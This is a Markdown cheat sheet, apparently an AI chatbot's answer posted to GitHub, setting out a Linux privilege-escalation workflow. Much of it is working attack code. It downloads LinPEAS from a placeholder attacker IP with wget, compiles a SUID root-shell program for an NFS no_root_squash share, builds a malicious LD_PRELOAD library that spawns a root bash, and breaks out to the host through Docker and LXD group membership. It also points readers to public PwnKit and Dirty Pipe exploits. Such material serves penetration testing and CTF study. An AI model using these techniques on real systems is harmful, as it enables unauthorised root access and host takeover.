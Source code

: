 Of course. Here is a more extensive and detailed overview of the Linux Privilege Escalation methodology, incorporating additional vectors and advanced techniques.

-----

## Linux Privilege Escalation Methodology (Extended)

This guide expands on the core concepts with more advanced vectors, providing a comprehensive strategy for escalating privileges on a Linux system.

### The Core Checklist 🗺️

This is your primary workflow. For any compromised user, systematically check these vectors.

1.  **Run an Automated Script**: Always start with **LinPEAS** (`linpeas.sh`). It's the fastest way to get a comprehensive overview of the system's security posture.
2.  **Check Low-Hanging Fruit**: Systematically check `sudo -l`, **SUID/SGID** binaries (cross-reference with GTFObins), and file **capabilities**. These are the most common entry points.
3.  **Investigate Services & Cron Jobs**: Are any services misconfigured? Are any cron jobs running scripts you can write to? Can you abuse **$PATH** or wildcards?
4.  **Hunt for Credentials & Sensitive Data**: Aggressively search the file system for passwords, private keys, API tokens, and sensitive information in logs or config files.
5.  **Check for Shared Resource Vulnerabilities**: Are there misconfigured **NFS** shares?
6.  **Look for Advanced Binary Exploits**: Can you hijack shared libraries with **LD\_PRELOAD** or abuse RPATH?
7.  **Check for Container Escapes**: Is the user in the `docker` or `lxd` group? This is often a direct path to root.
8.  **Identify Kernel/Recent Vulnerabilities**: Is the kernel or a system service vulnerable to a recently discovered, high-impact exploit (e.g., PwnKit, Dirty Pipe)?

-----

## 1\. Initial Enumeration (Know Your System)

A thorough understanding of the machine is the foundation of any escalation attempt.

### Automated Scripts (The Best First Step)

These scripts automate the discovery of most vulnerabilities listed below.

```shell
# Download and run LinPEAS from your attacker machine
wget http://<attacker_ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas_output.txt
```

### Manual Checks

```shell
# System & User Info
uname -a && cat /etc/os-release && ps aux && id && sudo -l

# Network, Services, and Cron Jobs
ss -tulpn && ls -la /etc/cron* && systemctl list-timers --all
```

-----

## 2\. Common Escalation Vectors

These are the most frequent and reliable paths to root.

### Sudo Rights & SUID/SGID Binaries

Always check GTFObins for any binary you find that can be run with elevated privileges.

```shell
# Check your sudo permissions
sudo -l

# Find SUID binaries (run as file owner, e.g., root)
find / -perm -u=s -type f 2>/dev/null
```

**--\> For any binary you find, check GTFObins: [https://gtfobins.github.io/](https://gtfobins.github.io/)**

### Capabilities

Capabilities provide granular permissions that can be exploited.

```shell
# Find files with capabilities set
getcap -r / 2>/dev/null
```

**--\> Check GTFObins for any abusable capabilities (e.g., `python3` with `cap_setuid`).**

-----

## 3\. Misconfigurations & Weak Permissions

### Writable Cron Jobs, PATH Abuse, and Wildcards

These vectors rely on scripts run by root that can be influenced by a low-privileged user. Use `pspy` to monitor processes in real-time to spot these opportunities.

### NFS Share Misconfigurations

The Network File System (NFS) can be misconfigured to allow a remote user to create files on the target system as root.

```shell
# On your attacker machine, check what shares are available
showmount -e <target_ip>

# On the target machine, check the NFS configuration
cat /etc/exports
```

If you see a share with the **`no_root_squash`** option, you can gain root. Mount the share on your attacker machine, create a C program with a SUID shell, compile it, and run it on the target.

```c
// shell.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void){ setuid(0); setgid(0); system("/bin/bash -p"); }
```

```shell
# On your attacker machine after mounting the share to /mnt/nfs
gcc shell.c -o /mnt/nfs/shell
chmod +s /mnt/nfs/shell

# On the target machine
/path/to/share/shell
```

-----

## 4\. Advanced Binary & Library Exploitation

### Shared Library Hijacking (`LD_PRELOAD`)

If `sudo -l` shows that the `LD_PRELOAD` environment variable is preserved, you can force a program run by `sudo` to load a malicious shared library.

```c
// hijack.c - A malicious shared library
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() { unsetenv("LD_PRELOAD"); setgid(0); setuid(0); system("/bin/bash -p"); }
```

```shell
# Compile the malicious library
gcc -fPIC -shared -o hijack.so hijack.c -nostartfiles

# Run the program that preserves the variable with sudo
sudo LD_PRELOAD=$PWD/hijack.so /path/to/sudo/program
```

-----

## 5\. Container & Virtualization Escapes 🐳

Access to container management tools is often equivalent to root on the host system.

### Docker Socket Abuse

If your user is a member of the **`docker`** group, you can escape to the host.

```shell
# Check if you are in the docker group
id

# Run a privileged container and mount the host's root filesystem
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

### LXD/LXC Privileged Group

Similarly, membership in the **`lxd`** group allows you to mount the host's filesystem into a privileged container.

```shell
# Check if you are in the lxd group
id

# Create a privileged container and mount the host's root directory
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```

-----

## 6\. Kernel & Recent Vulnerabilities (0-days) 💥

This is a powerful but often noisy and unstable method. Always check the system's kernel and service versions against recently disclosed vulnerabilities.

```shell
# Check kernel and OS version
uname -a && cat /etc/os-release
```

Famous examples include:

  * **Polkit's `pkexec` (CVE-2021-4034 "PwnKit")**: A memory corruption bug that provided instant local root on nearly all major Linux distributions.
  * **Dirty Pipe (CVE-2022-0847)**: A vulnerability in the Linux kernel that allowed overwriting data in arbitrary read-only files, leading to trivial privilege escalation.

Always search for public proof-of-concept exploits for these vulnerabilities on platforms like GitHub.
